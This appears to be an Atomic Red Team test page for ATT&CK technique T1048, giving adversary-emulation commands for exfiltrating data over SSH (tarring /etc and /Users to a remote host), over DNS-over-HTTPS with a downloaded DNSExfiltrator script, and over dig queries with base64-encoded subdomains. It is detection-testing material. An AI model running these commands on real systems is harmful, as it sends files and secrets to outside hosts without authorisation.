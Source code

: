# T1048 - Exfiltration Over Alternative Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1048)
<blockquote>

Adversaries may steal data by exfiltrating it over a different protocol than that of the existing command and control channel. The data may also be sent to an alternate network location from the main command and control server.  

Alternate protocols include FTP, SMTP, HTTP/S, DNS, SMB, or any other network protocol not being used as the main command and control channel. Adversaries may also opt to encrypt and/or obfuscate these alternate channels. 

[Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048) can be done using various common operating system utilities such as [Net](https://attack.mitre.org/software/S0039)/SMB or FTP.(Citation: Palo Alto OilRig Oct 2016) On macOS and Linux <code>curl</code> may be used to invoke protocols such as HTTP/S or FTP/S to exfiltrate data from a system.(Citation: 20 macOS Common Tools and Techniques)

Many IaaS and SaaS platforms (such as Microsoft Exchange, Microsoft SharePoint, GitHub, and AWS S3) support the direct download of files, emails, source code, and other sensitive information via the web console or [Cloud API](https://attack.mitre.org/techniques/T1059/009).

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltration Over Alternative Protocol - SSH](#atomic-test-1---exfiltration-over-alternative-protocol---ssh)

- [Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH](#atomic-test-2---exfiltration-over-alternative-protocol---ssh)

- [Atomic Test #3 - DNSExfiltration (doh)](#atomic-test-3---dnsexfiltration-doh)

- [Atomic Test #4 - Exfiltrate Data using DNS Queries via dig](#atomic-test-4---exfiltrate-data-using-dns-queries-via-dig)


<br/>

## Atomic Test #1 - Exfiltration Over Alternative Protocol - SSH
Input a domain and test Exfiltration over SSH

Remote to Local

Upon successful execution, sh will spawn ssh contacting a remote domain (default: target.example.com) writing a tar.gz file.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** f6786cc8-beda-4915-a4d6-ac2f193bb988





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | target SSH domain | url | target.example.com|


#### Attack Commands: Run with `sh`! 


```sh
ssh #{domain} "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz
```






<br/>
<br/>

## Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH
Input a domain and test Exfiltration over SSH

Local to Remote

Upon successful execution, tar will compress /Users/* directory and password protect the file modification of `Users.tar.gz.enc` as output.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 7c3cb337-35ae-4d06-bf03-3032ed2ec268





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user_name | username for domain | string | atomic|
| password | password for user | string | atomic|
| domain | target SSH domain | url | target.example.com|


#### Attack Commands: Run with `sh`! 


```sh
tar czpf - /Users/* | openssl des3 -salt -pass #{password} | ssh #{user_name}@#{domain} 'cat > /Users.tar.gz.enc'
```






<br/>
<br/>

## Atomic Test #3 - DNSExfiltration (doh)
DNSExfiltrator enables the transfer (exfiltration) of a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.
!!! Test will fail without a domain under your control with A record and NS record !!! 
See this github page for more details - https://github.com/Arno0x/DNSExfiltrator

**Supported Platforms:** Windows


**auto_generated_guid:** c943d285-ada3-45ca-b3aa-7cd6500c6a48





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| password | Password used to encrypt the data to be exfiltrated | string | atomic|
| domain | The domain name to use for DNS requests | string | target.example.com|
| ps_module | DNSExfiltrator powershell ps_module | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;dnsexfil.ps1|
| doh | Google or CloudFlare DoH (DNS over HTTP) server | string | google|
| time | The time in milliseconds to wait between each DNS request | string | 500|
| encoding | Set to '-b32' to use base32 encoding of data. Might be required by some DNS resolvers. | string | |


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module "#{ps_module}"
Invoke-DNSExfiltrator -i "#{ps_module}" -d #{domain} -p #{password} -doh #{doh} -t #{time} #{encoding}
```




#### Dependencies:  Run with `powershell`!
##### Description: DNSExfiltrator powershell file must exist on disk at specified location (#{ps_module})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{ps_module}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IWR "https://raw.githubusercontent.com/Arno0x/DNSExfiltrator/8faa972408b0384416fffd5b4d42a7aa00526ca8/Invoke-DNSExfiltrator.ps1" -OutFile "#{ps_module}"
```




<br/>
<br/>

## Atomic Test #4 - Exfiltrate Data using DNS Queries via dig
This test demonstrates how an attacker can exfiltrate sensitive information by encoding it as a subdomain (using base64 encoding) and 
making DNS queries via the dig command to a controlled DNS server.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** a27916da-05f2-4316-a3ee-feec67a437be





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dns_port | Attacker's DNS server port | integer | 53|
| attacker_dns_server | Attacker's DNS server address | string | 8.8.8.8|
| secret_info | secret info that will be exfiltirated | string | this is a secret info|


#### Attack Commands: Run with `bash`! 


```bash
dig @#{attacker_dns_server} -p #{dns_port} $(echo "#{secret_info}" | base64).google.com
```




#### Dependencies:  Run with `bash`!
##### Description: dig command
##### Check Prereq Commands:
```bash
which dig
```
##### Get Prereq Commands:
```bash
which apt && sudo apt update && sudo apt install -y bind9-dnsutils || which yum && sudo yum install -y bind-utils || which dnf && sudo dnf install -y bind-utils || which apk && sudo apk add bind-tools || which pkg && sudo pkg update && sudo pkg install -y bind-tools || which brew && brew update && brew install --quiet bind
```




<br/>
